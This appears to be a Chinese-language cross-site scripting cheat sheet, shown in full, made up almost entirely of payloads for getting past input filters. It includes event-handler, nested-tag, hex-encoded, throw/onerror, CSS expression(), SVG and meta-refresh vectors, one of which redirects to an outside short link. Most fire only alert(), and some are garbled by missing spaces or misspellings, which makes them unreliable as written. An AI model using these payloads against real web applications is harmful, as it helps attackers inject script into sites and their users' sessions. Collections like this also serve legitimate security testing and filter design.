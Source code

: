 ```
<q/oncut=open()>
<q/oncut=alert(1)>//在限制长度的地方很有效 
```

#### 嵌套

```
<marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
<bodylanguage=vbsonload=alert-1//IE8 有效
<command onmouseover
="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x6 6\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command> //IE8 有效 
```

#### 过滤括号的情况下

当括号被过滤的时候可以使用 throw 来绕过

```
<a onmouseover="javascript:window.onerror=alert;throw 1>
<img src=x onerror="javascript:window.onerror=alert;throw 1"> 
```

以上两个测试向量在 Chrome 跟 IE 在上面会出现一个“uncaught”的错误，可以用以下的向量：

```
<body/onload=javascript:window.onerror=eval;throw'=alert\x281\x29';> 
```

#### expression 属性

```
<img style="xss:expression(alert(0))"> // IE7 以下
<div style="color:rgb(''&#0;x:expression(alert(1))"></div> // IE7 以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7 以下 
```

#### location 属性

```
<a onmouseover=location='javascript:alert(1)'>click
<body onfocus="loaction='javascript:alert(1)'">123 
```

#### 其他的一些 payload

```
<meta http-equiv="refresh" content="0;url=//goo.gl/nlX0P">
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
<svg ><g onload="javascript:\u0061lert(1);"></g></svg>
<svg ><a><circle r=100 /><animate attributeName="xlink:href" values=";javascript:alert(1)" begin="0s" dur="0.1s" fill="freeze"/>
<svg><![CDATA[><imagexlink:href="]]><img/src=xx:xonerror=alert(2)//"></svg>
<meta content="&NewLine; 1 &NewLine;;JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click 
```
